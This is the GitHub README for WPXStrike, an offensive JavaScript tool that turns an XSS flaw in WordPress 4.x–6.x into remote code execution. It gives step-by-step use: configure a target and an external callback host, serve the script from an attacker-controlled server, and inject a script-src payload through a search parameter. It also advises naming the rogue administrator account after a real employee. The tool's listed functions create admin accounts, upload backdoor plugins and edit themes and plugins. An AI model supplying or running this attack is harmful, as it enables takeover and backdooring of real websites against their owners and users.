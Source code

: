 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/WPXStrike/assets/96009982/36f99c00-31f9-45fa-ab4d-746481a16de4" alt="WPXStrike" width="350">
  <br>
  WPXStrike
  <br>
</h1>



<h4 align="center">WordPress Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilties</a>.</h4>

<p align="center">
  <a href="#about">About</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#examples">Examples</a> •
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/WPXStrike/assets/96009982/c9cd4b27-e93d-4e90-bd69-b10c0fe36e60)

## About
_**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress.<br><br>
🌍 **This script provides support for **Wordpress** **Versions** **6.X.X**, **5.X.X** and **4.X.X**.** 🌟

## Key Features

* _**Privilege Escalation**_
  - Creates an user in WordPress.
* _**(RCE) Custom Plugin (backdoor) Upload**_
  - Upload your custom plugin (backdoor) to WordPress.
* _**(RCE) Built-In Plugin Edit**_
  - Edit a Built-In Plugins in WordPress.
* _**(RCE) Built-In Theme Edit**_
  - Edit a Built-In Themes in WordPress.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party WordPress Plugins/Themes.
  
## How To Use
https://github.com/nowak0x01/WPXStrike/assets/96009982/05ae1c34-5c0c-4ee5-b80e-0c8c270dbba0

1\) Clone the Repository
```bash
git clone https://github.com/nowak0x01/WPXStrike
```

2\) Edit the script by selecting the desired function, modifying its variable values and select the module. (Example: _**WPCreateAccount()**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "https://wordpress.example.com/"; // Ex: https://172.16.0.13:8000/wordpress/
var Callback = "https://fqgx7638bcvddnsrufh3nxbozd.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

WPCreateAccount(); // (Privilege Escalation) - Creates an user in WordPress.
// WPUploadCustomPlugin(); // (RCE) - Upload your custom plugin (backdoor) to WordPress.
// WPEditPlugins(); // (RCE) - Edit a Built-In Plugins in WordPress.
// WPEditThemes(); // (RCE) - Edit a Built-In Themes in WordPress.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party WordPress Plugins/Themes.

function WPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // Ex: operator (It is recommended to use a valid employee name from the target company).
    var Password = `j^QEkyvd7*g3xqsE`;          // (weak password are allowed).
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered).
    var Role = "administrator";                 // Ex: administrator, editor, author, contributor, subscriber.
    var FirstName = ""; // (optional)
    var LastName = "";  // (optional)
    /* ************************************************************************************************************************************************ */

    // ************************************ ~% WPCreateAccount Modules %~ ************************************ //
    // [#] Choose one of the available modules [#] //
    WPXCreateAccount(); // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    /* ************************************************************************************************************************************************ */

    // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    function WPXCreateAccount() {
      ...
    }

```

3\) Start a web server
```bash
php -S 0.0.0.0:80 -t .
```

4\) Go to the WordPress XSS vector and include _**WPXStrike.js**_
```
https://wordpress.example.com/?search=<script%20src="//YOURIP/WPXStrike.js"></script>
```

## Examples
**_WPCreateAccount()_ - Creates an user in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/60940909-e13c-4161-9638-864cab36fdcd

**_WPUploadCustomPlugin()_ - Upload your custom plugin (backdoor) to WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/08deea5f-acd2-412c-b248-28a71b0ff96d

**_WPEditThemes()_ - Edit a Built-In Themes in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/ae52c7cf-26f2-44f7-aed2-e4493874bdf1

**_WPEditPlugins()_ - Edit a Built-In Plugins in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/b744d37c-bf17-4fc4-8cb1-6ede389da6c7

**_CustomExploits()_ - Custom Exploits for Third-Party WordPress Plugins/Themes**.<br>
// pending

# Contributing
If you're interested in contributing, enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better.
<pre>
              ;,_            ,
                 _uP~"b          d"u,
                dP'   "b       ,d"  "o
               d"    , `b     d"'    "b
              l] [    " `l,  d"       lb
              Ol ?     "  "b`"=uoqo,_  "l
            ,dBb "b        "b,    `"~~TObup,_
          ,d" (db.`"         ""     "tbc,_ `~"Yuu,_
        .d" l`T'  '=                      ~     `""Yu,
      ,dO` gP,                           `u,   b,_  "b7         
     d?' ,d" l,                           `"b,_ `~b  "1
   ,8i' dl   `l                 ,ggQOV",dbgq,._"  `l  lb      WPXStrike (https://github.com/nowak0x01/WPXStrike)
  .df' (O,    "             ,ggQY"~  , @@@@@d"bd~  `b "1
 .df'   `"           -=@QgpOY""     (b  @@@@P db    `Lp"b,
.d(                  _               "ko "=d_,Q`  ,_  "  "b,
Ql         .         `"qo,._          "tQo,_`""bo ;tb,    `"b,
qQ         |L           ~"QQQgggc,_.,dObc,opooO  `"~~";.   __,7,
qp         t\io,_           `~"TOOggQV""""        _,dg,_ =PIQHib.
`qp        `Q["tQQQo,_                          ,pl{QOP"'   7AFR`
  `         `tb  '""tQQQg,_             p" "b   `       .;-.`Vl'
             "Yb      `"tQOOo,__    _,edb    ` .__   /`/'|  |b;=;.__
                           `"tQQQOOOOP""`"\QV;qQObob"`-._`\_~~-._
                                """"    ._        /   | |oP"\_   ~\ ~\_~\
                                        `~"\ic,qggddOOP"|  |  ~\   `\~-._
                                          ,qP`"""|"   | `\ `;   `\   `\
                               _        _,p"     |    |   `\`;    |    |
    @Author: Hudson Nowak      "boo,._dP"       `\_  `\    `\|   `\   ;
                                 `"7tY~'            `\  `\    `|_   |
                                                      `~\  |
</pre>
